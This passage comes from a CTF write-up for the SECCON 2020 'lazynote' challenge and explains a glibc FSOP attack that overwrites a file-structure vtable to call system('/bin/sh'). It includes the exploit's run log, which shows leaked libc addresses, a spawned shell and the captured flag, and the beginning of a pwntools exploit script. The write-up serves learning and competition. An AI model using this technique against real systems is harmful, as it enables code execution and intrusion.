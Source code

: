 Once this final payload is sent through, something causes `stdin`'s file structure to reset (I'm not sure what exactly). This resets `_IO_read_end` and `_IO_read_ptr`, and makes it so that `_IO_getline_info` stops looping. This will exit `fgets`, which will then cause the program to call `puts`. `puts` will attempt to call `_IO_new_file_overflow`, but since we overwrote the `vtable` pointer, it will instead call `_IO_str_overflow`, which will then end up calling `system("/bin/sh")` and give us a shell.

I ran my exploit against the remote server (it is surprisingly up 2 days after the CTF has ended!):
```
$ ./exploit.py 
[*] '/home/faith/projects/ctf/seccon-2020/lazynote/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/faith/projects/ctf/seccon-2020/lazynote/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-neko.chal.seccon.jp on port 9003: Done
[*] LIBC leak: 0x7fdffb05a8b0
[*] LIBC base: 0x7fdffac6d000
[*] system@LIBC: 0x7fdffacbc4e0
[*] /bin/sh: 0x7fdffae210fa
[*] _IO_2_1_stdout_: 0x7fdffb059760
[*] _IO_2_1_stdin_: 0x7fdffb058a00
[*] Switching to interactive mode

> $ ls
chall
flag-fa782be4dfb69fb423613b8ad35c1e28.txt
redir.sh
$ cat flag-fa782be4dfb69fb423613b8ad35c1e28.txt
SECCON{r3l4t1v3_nu11_wr1t3_pr1m1t1v3_2_sh3ll}$ 
```

# Conclusion

Learning about FSOP for the first time was a treat. I can't wait to get back into the CTF scene and start playing more and more. University is finally coming to an end soon, and I can't wait to finally be able to spend all my time playing CTFs and doing vulnerability research. Sounds like heaven to me!

# Final exploit script

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"

elf  = ELF("./chall")
libc = ELF("./libc-2.27.so")
#p    = process("./chall", env={"LD_PRELOAD": "./libc-2.27.so"})
p    = remote("pwn-neko.chal.seccon.jp", 9003)
REMOTE = True

def create1(alloc_size, read_size, data):
```